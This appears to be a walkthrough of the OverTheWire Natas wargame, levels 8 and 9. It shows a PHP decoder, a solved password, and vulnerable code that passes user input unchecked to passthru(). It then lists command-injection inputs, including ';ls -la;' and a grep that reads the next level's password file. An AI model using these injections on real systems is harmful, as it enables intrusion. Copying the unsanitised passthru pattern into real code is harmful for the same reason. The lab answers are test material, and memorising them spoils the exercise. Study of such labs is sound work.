 A simple reverse of the function does the trick.

```php
<?
function decode_secret($secret){
    return base64_decode(strrev(hex2bin($secret)))
}

echo decode_secret("3d3d516343746d4d6d6c315669563362");
?>
```

Password: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

# Level 9

## Why passthru() is NOT secure?

#### passthru() is a PHP method allowing to execute commands. It is not considered secure anywhere.

URL: http://natas9.natas.labs.overthewire.org/

The code obtained:

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```
The point is that `passthru` is not validating what is going within it. We abuse this by sending in:

```s
grep -i [A-Za-z0-9] * dictionary.txt
```

A more thoughtful search of the form:

```s
grep -i [A-Za-z0-9] /etc/natas_webpass_natas10 dictionary.txt
```

does the trick. It is also absused in the following way:

```s
grep -i ;ls -la; dictionary.txt
grep -i ;ps -el; dictionary.txt
```
